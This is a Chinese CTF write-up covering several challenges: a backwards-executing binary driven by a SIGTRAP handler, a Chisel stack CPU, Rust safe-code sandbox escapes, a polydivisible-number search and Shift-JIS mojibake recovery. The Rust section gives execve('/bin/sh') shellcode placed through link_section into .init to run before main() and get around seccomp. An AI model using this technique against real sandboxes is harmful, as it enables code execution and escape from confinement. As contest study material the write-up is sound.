.text:0000000000001191                 xor     eax, eax
.text:0000000000001193                 lea     rdi, a250s      ; "%250s"
.text:000000000000119A                 call    ___printf_chk
.text:000000000000119F                 mov     rbp, rsp
.text:00000000000011A2                 xor     eax, eax
.text:00000000000011A4                 mov     [rsp+108h], rax
.text:00000000000011AC                 mov     rax, fs:28h
.text:00000000000011B5                 sub     rsp, 110h
.text:00000000000011BC                 mov     edi, 1
.text:00000000000011C1                 lea     rsi, aPassword  ; "PASSWORD: "
.text:00000000000011C8                 push    rbp
.text:00000000000011C9                 mov     rsi, 100000000h
```

????? 怎么会有先 `call` 再给寄存器赋值参数的程序啊，总不可能是倒着执行的吧.png

先不管了，用 GDB 挂着看看：

```console
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Program received signal SIGTRAP, Trace/breakpoint trap.
0x0000555555555114 in ?? ()
```

SIGTRAP？看了一下，确实有个 sigaction 挂了 SIGTRAP 的 handler。Handler 里面好像有点计算的逻辑，难道这是算 flag 用的吗？试了一下 patch 掉 sigaction，程序会直接挂。然后想用投机取巧的方法，试了 angr 和 qiling，都没法准确模拟这个程序。

实在没法，硬着头皮看程序。我想先知道 SIGTRAP 是从哪里来的。看了一下 `sub_10B0()` 的内容：

```c
unsigned __int64 sub_10B0()
{
  unsigned __int64 v0; // kr00_8
  struct sigaction v2; // [rsp+8h] [rbp-A8h] BYREF
  unsigned __int64 v3; // [rsp+A0h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  memset(&v2.sa_mask, 0, 0x90uLL);
  v2.sa_flags = 4;
  v2.sa_handler = (__sighandler_t)sub_12D0;
  if ( sigaction(5, &v2, 0LL) < 0 )
    abort();
  v0 = __readeflags();
  __writeeflags(v0 ^ 0x100);
  return __readfsqword(0x28u) ^ v3;
}
```

`__writeeflags` 写了啥？看了一下 [Wikipedia](https://en.wikipedia.org/wiki/FLAGS_register)，发现 0x100 的值刚好是 trap flag，这就解释了为什么会不停 sigtrap。

但是这个 handler 是干嘛用的？我之前仔细读过 `sigaction(2)` 的内容，完整的 handler 是这么定义的：

```c
void
handler(int sig, siginfo_t *info, void *ucontext)
{
   ...
}
```

反编译结果显示，handler 会读取第三个参数加一个偏移量的内容：

```c
unsigned __int64 __fastcall sub_12D0(__int64 a1, __int64 a2, __int64 a3)
{
  unsigned __int64 result; // rax
  int v4; // edi
  unsigned __int64 v5; // r8
  __int64 v6; // rdi
  unsigned __int64 v7; // rsi
  unsigned __int64 v8; // rax
  char v9; // cl

  result = *(_QWORD *)(a3 + 168);
  if ( (unsigned __int64)&unk_1098 <= result && result < (unsigned __int64)byte_1445 )
  {
    v4 = byte_40E0[(result - (unsigned __int64)&unk_1098) >> 3];
    if ( _bittest(&v4, (result - (unsigned int)&unk_1098) & 7) )
    {
      v5 = result - 1;
      v6 = 0LL;
      v7 = result + ~(unsigned __int64)&unk_1098;
      do
      {
        v8 = v7;
        v9 = v7--;
        v6 += (byte_40E0[v8 >> 3] >> (v9 & 7)) & 1;
        result = v5--;
      }
      while ( v6 != 2 );
      *(_QWORD *)(a3 + 168) = result;
    }
  }
  return result;
}
```

我本来以为应该不会用到第三个参数，因为：

> ucontext
>
>    This is a pointer to a ucontext_t structure, cast  to  void *.
>    The structure pointed to by this field contains signal context
>    information that was saved on the user-space stack by the ker‐
>    nel; for details, see sigreturn(2).  Further information about
>    the ucontext_t structure can be  found  in  getcontext(3)  and
>    signal(7).   Commonly,  the  handler function doesn't make any
>    use of the third argument.

正常的 handler 不会用第三个参数的值，但是这个程序并不正常。最后还是去看了看这个参数是什么。阅读 ucontext.h，可以写出这样的代码来看内部变量的地址：

```c
#include <ucontext.h>

int main() {
    ucontext_t x;
    printf("x: %p\n", &x);
    printf("x.uc_mcontext gregs 16: %p\n", &(x.uc_mcontext.gregs[16]));
    return 0;
}
```

于是最后发现是第 16 个（0-idx）通用寄存器的值。而 ucontext.h 中也包含了寄存器的顺序，第 16 个通用寄存器是……RIP。

草。

按其逻辑，写了个程序看 pc 会怎么变化：

```python
byte40e0 = [0] * 0x15 + [0xa1, 0x10, 0xb8, 0x40, 0x1, 0x2, 0x42, 0xa0, 0x42, 0x42, 0x0a, 0x84, 0x14, 0x10, 0x20, 0x10, 0x02, 0x3, 0x8] + [0] * 0x2f + [0x1b, 0xaa, 0x24, 0x8a, 0x88, 0x4a, 0x48, 0x42, 0x44, 0x81, 0x40, 0xa0, 0x4a, 0x0a, 0x32] + [0] * 0x10

# print(len(byte40e0))

start_pc = 0x1098
end_pc = 0x1445

for pc in range(start_pc, end_pc):
    v4 = byte40e0[(pc - start_pc) >> 3]
    bit = (pc - start_pc) & 7
    if (v4 >> bit) & 1:
        print("oldpc: 0x%x" % pc, end=' ')
        v5 = pc - 1
        v6 = 0
        v7 = pc + ~start_pc
        # v7 = pc - start_pc + 1
        while v6 != 2:
            v8 = v7
            v9 = v7
            v7 -= 1
            v6 += (byte40e0[v8 >> 3] >> (v9 & 7)) & 1
            pc = v5
            v5 -= 1
        print("newpc: 0x%x" % pc)
```

输出之后才发现：R I P 真 的 是 倒 着 走 的！

```
oldpc: 0x1140 newpc: 0x1014
oldpc: 0x1145 newpc: 0x1015
oldpc: 0x1147 newpc: 0x1140
oldpc: 0x114c newpc: 0x1145
oldpc: 0x1153 newpc: 0x1147
oldpc: 0x1154 newpc: 0x114c
// 省略
oldpc: 0x11c9 newpc: 0x11c1
oldpc: 0x11d3 newpc: 0x11c8
oldpc: 0x1350 newpc: 0x11c9
oldpc: 0x1351 newpc: 0x11d3
oldpc: 0x1353 newpc: 0x1350
oldpc: 0x1354 newpc: 0x1351
// 省略
```

所以整理了一下 "main" 函数和之后的计算逻辑。需要注意的是，mcontext 里面的汇编应该是将要执行的命令，所以相关的逻辑就是直接反过来，而不是反过来跳着跑的。汇编大概是这样：

```asm
main:
push   %rbp
lea    0xe3c(%rip),%rsi  # 2004
mov    $0x1,%edi
sub    $0x110,%rsp
mov    %fs:0x28,%rax
mov    %rax,0x108(%rsp)
xor    %eax,%eax
mov    %rsp,%rbp
call   1070 <__printf_chk@plt>
lea    0xe75(%rip),%rdi  # 200f  "%250s"
xor    %eax,%eax
mov    %rbp,%rsi  # 用户输入？-> stack
call   1080 <__isoc99_scanf@plt>
mov    %rbp,%rdi
call   13c5 <__cxa_finalize@plt+0x335>  // 计算逻辑
test   %al,%al
je     1154 <__cxa_finalize@plt+0xc4>
lea    0xe98(%rip),%rdi
call   1040 <puts@plt>
// ...

// rdi (第一个参数) 为用户输入
calc_13c5:
movsbl (%rdi),%eax
mov    0x2c5f(%rip),%edx
test   %al,%al
sete   %cl
shr    $0x1f,%edx
cmp    %dl,%cl
jne    1354 <__cxa_finalize@plt+0x2c4>
xor    %ecx,%ecx
lea    0x2c73(%rip),%r8  # 4020
lea    0xc9a(%rip),%r10        # 2040
1398: lea    0xd01(%rip),%r9  # 20a0
jmp    135f <__cxa_finalize@plt+0x2cf>
1392: movslq (%r8,%rcx,4),%rsi
mov    (%r8,%rcx,4),%r11d
movsbl (%r9,%rsi,1),%edx
xor    %r11d,%edx
movslq %edx,%rdx
movzwl (%r10,%rdx,2),%edx
and    $0x7f,%edx
cmp    %edx,%eax  // 比对该字符串结果
jne    1354 <__cxa_finalize@plt+0x2c4>
add    $0x1,%rcx
136f: movsbl (%rdi,%rcx,1),%eax
mov    (%r8,%rcx,4),%edx
1369: test  %al, %al
sete   %sil
1362: shr    $0x1f,%edx
135f: cmp %dl,%sil（跳转到的时候实际不执行 -> 135b）
135d: jne    1354 <__cxa_finalize@plt+0x2c4>
135b: test   %al,%al
1359: jne    1398 <__cxa_finalize@plt+0x308>（跳到 1392）
1353: ret
1354: mov    $0x1,%eax
1351: xor    %eax,%eax
11d3: jmp main
```

计算代码部分主要是三个预置的数组，用户输入的字符串在 `%rdi`，因此可以还原：

```python
# r8 = [0x13, 9, 1, 0x19, 0x1e, 0x21, 5, 0x14, 0xb, 7, 0xe, 4, 0x17, 3, 0x12, 8, 0x1c, 0x20, 0x26, 0x16, 0, 0x15, 0x10, 6, 0xc, 0xf, 0x25, 0xd, 0x24, 0x1b, 0x1f, 0x1a, 0x1d, 0xa, 0x11, 0x23, 0x18, 0x27, 0x22, 2, 0xffffffff] + [0] * 7
r8 = [0x13, 9, 1, 0x19, 0x1e, 0x21, 5, 0x14, 0xb, 7, 0xe, 4, 0x17, 3, 0x12, 8, 0x1c, 0x20, 0x26, 0x16, 0, 0x15, 0x10, 6, 0xc, 0xf, 0x25, 0xd, 0x24, 0x1b, 0x1f, 0x1a, 0x1d, 0xa, 0x11, 0x23, 0x18, 0x27, 0x22, 2]
r10 = [0x99C0, 0x0F6AD, 0x0B9D2, 0x2761, 0x35E9, 0x6C5F, 0x84B5, 0x0B268, 0x0C2E5, 0x99DF, 0x0BF77, 0x0EC7B, 0x3368, 0x0DF73, 0x1A31, 0x0DAD4, 0x8AF2, 0x0B363, 0x56B0, 0x7567, 0x0CB7D, 0x19B3, 0x0C2AD, 0x0E677, 0x26EC, 0x0C2D, 0x10EF, 0x0C9C4, 0x25DF, 0x0E1F5, 0x0FCE8, 0x71E8, 0x0BBE5, 0x0D566, 0x0E861, 0x9FF4, 0x73B7, 0x0CEE6, 0x0D3F4, 0x0BCD2] + [0] * 8
r9 = [0, 0x23, 0x16, 0x1D, 0x19, 2] + [0x21] * 2 + [0x12, 0x11, 0x1a] + [2] * 2 + [8, 0x0C, 0x1E, 0x11, 8, 4, 0x32, 1, 0x36, 9, 0x33] + [0x1B, 0x0A, 0x10, 0x17, 0x39] + [0x15] * 2 + [0x0d, 0x3c, 0x2e, 0x39, 0x2e, 0x22, 5, 0x31, 0x23]

for i in range(48):
    rsi = r8[i]
    r11d = r8[i]
    edx = r9[rsi]
    edx = edx ^ r11d
    rdx = edx
    edx = r10[rdx]
    edx = edx & 0x7f
    # print(hex(edx), chr(edx))
    print(chr(edx), end='')
```

输出就是 flag。

## 次世代立方计算机

其实根本不需要 jar，直接拿题目源代码就可以，而且更方便，因为可以随便改 Chisel 代码，只要本地配好 Chisel 环境就行，然后 `sbt test` 就能看结果。我好歹也是写过 Chisel 的嘛。

首先一个很方便的事情是，我们可以用 `print()` 在测试时每个时钟周期输出变量的值，以 Execute.scala 为例，就像这样：

```scala
val aluResult = MuxLookup(io.aluOp, 0.U, Seq(
   Instructions.ALU_ADD -> (io.opr1 + io.opr2),
   Instructions.ALU_SUB -> (io.opr1 - io.opr2),
   Instructions.ALU_AND -> (io.opr1 & io.opr2),
   Instructions.ALU_OR -> (io.opr1 | io.opr2),
   Instructions.ALU_XOR -> (io.opr1 ^ io.opr2),
   Instructions.ALU_SHL -> (io.opr1 << shiftAmount).asUInt,
   Instructions.ALU_SHR -> (io.opr1 >> shiftAmount).asUInt,
   Instructions.ALU_SAR -> (io.opr1.asSInt >> shiftAmount).asUInt,
   Instructions.ALU_LT -> (io.opr1.asSInt < io.opr2.asSInt).asUInt,
   Instructions.ALU_LTU -> (io.opr1 < io.opr2).asUInt,
   Instructions.ALU_EQ -> (io.opr1 === io.opr2).asUInt,
))

when (io.aluOp === Instructions.ALU_XOR) {
   printf("ALU XOR: %x ^ %x = %x\n", io.opr1, io.opr2, aluResult)
}
```

于是每次 ALU 跑出 xor 的时候，都会输出这一段，方便调试。

此外，根据 Instructions.scala，可以写出 disassembler：

```python
with open("rom.bin", "rb") as f:
    data = f.read()

# stack0 = stack[sp], stack1 = stack[sp - 1]
mapping = {
    0b0000000: "nop",
    0b0000001: "dup",  # stack[sp+1] = stack[sp]; sp++
    0b0000010: "swap", # stack0 <-> stack1
    0b0000011: "ld",   # stack[sp] = mem[stack[sp]]
    0b0000100: "st",
    0b0000101: "out",
    0b0000110: "halt",
    0b0000111: "inc",
    0b0001000: "add",
    0b0001001: "sub",
    0b0001010: "and",
    0b0001011: "or",
    0b0001100: "not",
    0b0001101: "xor",  # stack0 ^ stack1 -> stack0
    0b0001110: "shl",
    0b0001111: "shr",
    0b0010000: "sar",
    0b0010001: "lt",
    0b0010010: "ltu",
    0b0010011: "eq"
}

for idx, i in enumerate(data):
    bidx = f"0x{idx:03x}"
    if i in mapping:
        print(bidx, mapping[i])
    else:
        if (i >> 3) == 0b0100:
            print(bidx, f"bt 0b{(i&0b111):03b}")
        elif (i >> 3) == 0b0101:
            print(bidx, f"bf 0b{(i&0b111):03b}")     # trigger transfer if stack[sp] == 0, dir by imm
        elif (i >> 3) == 0b0110:
            print(bidx, f"j  0b{(i&0b111):03b}")     # jump to pc + imm, and transfer by imm
        elif (i >> 6) == 1:
            print(bidx, f"li 0b{(i&0b111111):06b}")  # stack[++sp] = imm
        else:
            print(bidx, f"unrecognized ({bin(i)})")
```

这个体系结构中最神秘的 PC 跳转的部分（怎么和上一道 binary 这么像？问了一下 xmcp 似乎是同一个出题人）从 Fetch.scala 看是在 `io.dirEn` 使能的时候会更新，它会决定 PC 的哪一部分变化：

```scala
// position
val (x, nextX) = pos(-1.S(posWidth.W).asUInt, Direction.XP, Direction.XN)
val (y, nextY) = pos(0.U(posWidth.W), Direction.YP, Direction.YN)
val (z, nextZ) = pos(0.U(posWidth.W), Direction.ZP, Direction.ZN)
def pos(init: UInt, dirPos: UInt, dirNeg: UInt) = {
   val p = RegInit(init)
   val next =
   Mux(nextDir === dirPos, p + 1.U,
   Mux(nextDir === dirNeg, p - 1.U, p))
   when (io.en) { p := next }
   (p, next)
}

// fetch the current instruction from the ROM
val pc = Cat(nextZ, nextY, nextX)
io.rom.en := io.en
io.rom.addr := pc
```

方向由「跳转类指令」的立即数（就这么喊吧）决定：

```scala
// flag of control transfer
val transfer = MuxLookup(ctOp, false.B, Seq(
   Instructions.CT_NOP -> false.B,
   Instructions.CT_T -> oprVal1.orR,
   Instructions.CT_F -> !oprVal1.orR,
   Instructions.CT_J -> true.B,
))
val dir = io.inst(dirWidth - 1, 0)
```

于是我一开始的思路是，既然这玩意是个状态机（是显然的），那么就会有和 flag 有关的状态，那就把所有的状态变化（RAM、栈、ALU 结果等等）输出出来就行了，结果发现找不到 flag，再仔细一看：数据位宽怎么只有 6 位。

晚上看到了提示，发现要修改初始状态，那么就估计是内存了。之前在调试的时候就注意到，内存的访问 pattern 似乎有所规律：

```
> cat 4.txt | grep 'Read addr' | head -n 30             
Read addr 00 data 00
Read addr 00 data 00
Read addr 00 data 00
Read addr 3e data 00
Read addr 3f data 00
Read addr 01 data 00
Read addr 01 data 00
Read addr 00 data 00
Read addr 3e data 01
Read addr 3f data 00
Read addr 02 data 00
Read addr 02 data 00
Read addr 00 data 00
Read addr 3e data 02
Read addr 3f data 00
Read addr 03 data 00
Read addr 03 data 00
Read addr 00 data 00
Read addr 3e data 03
Read addr 3f data 00
Read addr 00 data 00
Read addr 00 data 00
Read addr 00 data 00
Read addr 3e data 00
Read addr 3f data 00
Read addr 01 data 00
Read addr 01 data 00
Read addr 00 data 00
Read addr 3e data 01
Read addr 3f data 00
```

（`Read addr` 是我自己加的调试 print）

看起来 pattern 是 00, 01, 02, 03, 00, 01, ...。在纸上推了一下，发现似乎前三个输出分别对应 00, 01, 02 位的内存，然后是读取出来 xor。从调试输出可以知道（如果不知道的话自己加 print 跑就是了），开头四个 xor 分别为：

```
ALU XOR: 00 ^ 3d = 003d
ALU XOR: 00 ^ 1f = 001f
ALU XOR: 00 ^ 14 = 0014
ALU XOR: 00 ^ 0f = 000f
```

而且已知输出为 flag 的 base64（`echo -n 'flag' | base64` 为 `ZmxhZw==`），因此开头四位为 `0x3d^25=36, 0x1f^38=57, 0x14^49=37, 0xf^33=46`。特别的，因为数据只有 6 位，所以 base64 对应的数字得看[字母表](https://en.wikipedia.org/wiki/Base64#Base64_table_from_RFC_4648)来算。

怎么设置内存初始值呢？我的做法是往 Ram.scala 里面加了四根飞线，改成了这样：

```scala
package cube64.mem

import chisel3._

class RamMasterIO(addrWidth: Int, dataWidth: Int) extends Bundle {
  val en = Output(Bool())
  val writeEn = Output(Bool())
  val addr = Output(UInt(addrWidth.W))
  val writeData = Output(UInt(dataWidth.W))
  val readData = Input(UInt(dataWidth.W))
}

class Ram(addrWidth: Int, dataWidth: Int) extends Module {
  val io = IO(Flipped(new RamMasterIO(addrWidth, dataWidth)))

  val mem = Mem(1 << addrWidth, UInt(dataWidth.W))

  val addr0 = RegInit(36.U)
  val addr1 = RegInit(57.U)
  val addr2 = RegInit(37.U)
  val addr3 = RegInit(46.U)

  io.readData := DontCare
  when (io.en) {
    when (io.writeEn) {
      when (io.addr === 0.U) {
        addr0 := io.writeData
      }.elsewhen (io.addr === 1.U) {
        addr1 := io.writeData
      }.elsewhen (io.addr === 2.U) {
        addr2 := io.writeData
      }.elsewhen (io.addr === 3.U) {
        addr3 := io.writeData
      }.otherwise {
        printf("Write addr %x data %x\n", io.addr, io.writeData)
        mem.write(io.addr, io.writeData)
      }
    } .otherwise {
      when (io.addr === 0.U) {
        io.readData := addr0
      }.elsewhen (io.addr === 1.U) {
        io.readData := addr1
      }.elsewhen (io.addr === 2.U) {
        io.readData := addr2
      }.elsewhen (io.addr === 3.U) {
        io.readData := addr3
      }.otherwise {
        io.readData := mem.read(io.addr)
        printf("Read addr %x data %x\n", io.addr, io.readData)
      }      
    }
  }
}
```

反正我不关心最后综合成什么东西，`sbt test` 能跑就行了。

最后跑起来就像这样子：



对着字母表恢复 base64 再解码就行了。

## 编原译理习题课 · 实验班

### Flag 1：Safe segfault

段错误的话，仍旧故技重施，去 Rust issues 里面翻。有个 I-unsound 的标签很方便。

试了几个 payload，最后用了 <https://github.com/rust-lang/rust/issues/70143#issuecomment-657209328>，利用超大的 align 值让程序挂掉，这个即使是最新的 Rust stable 也还是能用的。

### Flag 2：快 `main()` 一步

第二个 flag 在第一阶段没有做出来，因为没有想通怎么安全地伪造自定义 fd 的 `File` 类型的变量。看了第二阶段第一个提示，[搜了](https://github.com/rust-lang/rust/issues/82499)[一些](https://github.com/rust-lang/rust/issues/94125)[链接](https://github.com/rust-lang/rust/issues/28179)之后：既然我可以在 Rust 1.51 里面安全地往 ELF section 里面加几乎任何东西，那么我能不能加代码进去？

试了一下，往里面放准确的函数指针还是有点难度，但是可以直接往 `.init` 段里面加东西：

```rust
#![forbid(unsafe_code)]

#[link_section=".init"]
#[no_mangle]
pub static shellcode: u64 = 0;

pub fn run() {
}
```

（最新的 Rust stable 已经不再允许禁止 unsafe 时 link_section 了，所以得开个 Rust 1.51 的容器测试）

然后一跑，Segmentation fault! 挂个 gdb 看看：

```
(gdb) x/x $rip
0x55bc62a00018 <shellcode>:     0x00000000
```

果然。那就简单了，先搞个 shellcode bytes：

```python
>>> context.arch = "amd64"
>>> asm(shellcraft.amd64.linux.sh())
b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
>>> asm(shellcraft.amd64.linux.sh())
KeyboardInterrupt
>>> res = []
>>> for i in 
KeyboardInterrupt
>>> a = asm(shellcraft.amd64.linux.sh())
>>> for i in a:
...     res.append(i)
... 
>>> res
[106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5]
>>> len(res)
48
>>> print(shellcraft.amd64.linux.sh())
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

然后塞到程序里：

```rust
#![forbid(unsafe_code)]

#[link_section=".init"]
#[no_mangle]
pub static shellcode: [u8; 48] = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5];

pub fn run() {
}
```

跑一跑：

```console
root@b158b3a007f3:/workspace/home/saferust# cargo run --release
   Compiling saferust v0.1.0 (/workspace/home/saferust)
    Finished release [optimized] target(s) in 0.16s
     Running `target/release/saferust`
# whoami
root
```

成功！因为我们的 shellcode 在 main() 之前运行，所以 seccomp 限制也和我们毫无关系。

## 381654729

可以搜索到，[381654729 是十进制意义下唯一的每位数字都不同的 Polydivisible number](https://proofwiki.org/wiki/Definition:Polydivisible_Number)，并且程序似乎是要找个十六进制意义下的 polydivisible number。

找了一下 OEIS，没有找到有那么大的数的序列，我也不太懂算法，最后写了个 DFS 爆破之：

```python
# 0x666c616774c84912e26ad72b668ce22d54447a4b6127713f
# 0x000000000f????????????????????????????????????42

# 0x000000000f????????????????????????????????????42

# flag=input("Flag: ").encode()
# if len(set(flag)-set(range(127)))>0:
#     print("Wrong")
# else:
#import string
num=       0xf00000000000000000000000000000000000042
#remaining= 0xc84912e26ad72b668ce22d54447a4b612771
#printable = string.printable
num_len=len(hex(num))-2

def dfs(pos):
    global num
    if pos > num_len - 2:
        print("Find a potential number")
        print(num)
        print(hex(num))
        flag = True
        for i in range(1, num_len+1):
            if (num>>((num_len-i)*4))%i>0:
                flag = False
                print("But not expected")
                break
        if flag is True:
            exit()
        return
    base = 1 << ((num_len-pos)*4)
    for j in range(16):
        flag = True
        for i in range(1, pos):
            if (num>>((num_len-i)*4))%i>0:
                flag = False
                break
        if flag:
            dfs(pos + 1)
        num += base
    num -= 16 * base

dfs(2)
```

我们都知道输出开头是 `flag{`，所以我们的数字的长度也是已知的。DFS 从头开始枚举，跑一会就能出结果：



剩下要做什么应该不用我多说了。

## 乱码还原

> GitHub Copilot 曰：「佛曰：『我名為阿彌陀佛。』」



这道题需要还原在 UTF-8 硬转 Shift-JIS 编码后的文字（其中丢失了信息，因为不是所有的序列都是 valid Shift-JIS 字符），并且文字的字符的集合已知。说到这个，我就想到了之前看《街角魔族》第二季第十集里的一个场景（相关的解释我是在[这里](https://bgm.tv/ep/973615)看到的）：


```python
>>> "邢詅裪芩苭芢芢靝苌芲醸諧".encode('utf-16be').decode('shift_jis')
'世界一かわいい余のご尊顔'
```

不过……这里不是 UTF-16BE，而是（对于编码用到的字符来说是）三字节的 UTF-8，而且我们必须要面对在转换过程中丢失的信息。

### Flag 1：暴力方法

试了一下贪心的写法，发现会出现分叉，于是直接写了个 DFS 暴力：

```python
with open("flag1.enc", "r", encoding='utf-8') as f:
	  binary = f.read()
	
	  def dfs(sent: bytes):
	      if sent.decode('shift_jis', errors='ignore') == binary:
	          print(sent.decode())
	          exit()
	      for x in TUDOU:
	          x = x.encode('utf-8')
	          if binary.startswith((sent + x).decode('shift_jis', errors='ignore')):
	              dfs(sent + x)
	      for x in BYTEMARK:
	          x = x.encode('utf-8')
	          if binary.startswith((sent + x).decode('shift_jis', errors='ignore')):
	              dfs(sent + x)
	  
	  dfs("佛曰：".encode('utf-8'))
```

出的结果扔到 `Decrypt()` 解密即可。

### Flag 2：线性方法

Flag 2 变长了，如果还用 DFS 的代码，即使调整了迭代深度，也会发现迭代越到后面性能越差，因为有了个额外的 `O(n^2)` 的惩罚：每次都要对构造出的字符串做一遍 decode 到 shift_jis 的操作。

熬夜写了个线性的算法：每次迭代输出完整的字符，对于可能分叉的情况，对每种可能出现的情况分别处理（再读几个字节看看会不会出问题），最后如果实在出现了分叉，记录下有多种选择的字符的位置。

在写之前输出每个字符的 UTF-8 字节值，以及手推一遍 flag1 可能会有帮助。

```python
with open("flag2.enc", encoding='utf-8') as f:
    tdata = f.read()

data = b''
for i in tdata:
    data += i.encode('shift_jis')

TUDOU = [
    '滅', '苦', '婆', '娑', '耶', '陀', '跋', '多', '漫', '都', '殿', '悉', '夜', '爍', '帝', '吉',
    '利', '阿', '無', '南', '那', '怛', '喝', '羯', '勝', '摩', '伽', '謹', '波', '者', '穆', '僧',
    '室', '藝', '尼', '瑟', '地', '彌', '菩', '提', '蘇', '醯', '盧', '呼', '舍', '佛', '參', '沙',
    '伊', '隸', '麼', '遮', '闍', '度', '蒙', '孕', '薩', '夷', '迦', '他', '姪', '豆', '特', '逝',
    '朋', '輸', '楞', '栗', '寫', '數', '曳', '諦', '羅', '曰', '咒', '即', '密', '若', '般', '故',
    '不', '實', '真', '訶', '切', '一', '除', '能', '等', '是', '上', '明', '大', '神', '知', '三',
    '藐', '耨', '得', '依', '諸', '世', '槃', '涅', '竟', '究', '想', '夢', '倒', '顛', '離', '遠',
    '怖', '恐', '有', '礙', '心', '所', '以', '亦', '智', '道', '。', '集', '盡', '死', '老', '至']

BYTEMARK = ['冥', '奢', '梵', '呐', '俱', '哆', '怯', '諳', '罰', '侄', '缽', '皤']
FOYUE = ["佛", "曰", "："]

mappings = defaultdict(lambda: defaultdict(dict))

for i in TUDOU + BYTEMARK + FOYUE:
    byte = i.encode('utf-8')
    byte0, byte1, byte2 = byte[0], byte[1], byte[2]
    mappings[byte0][byte1][byte2] = i

mappings = dict(mappings)
for key in mappings:
    mappings[key] = dict(mappings[key])

def get_shiftjis(s):
    return s.encode('utf-8').decode('shift_jis', errors='ignore')

def check_prefix(s):
    return tdata.startswith(get_shiftjis(s))

pointer = 0
res = ""

# replace_list = []
zhelaosu = {}

while pointer < len(data):
    # check prefix first
    if not check_prefix(res):
        print("Error")
        assert 0, res
    # each iteration outputs a char
    c1 = data[pointer]
    pointer += 1
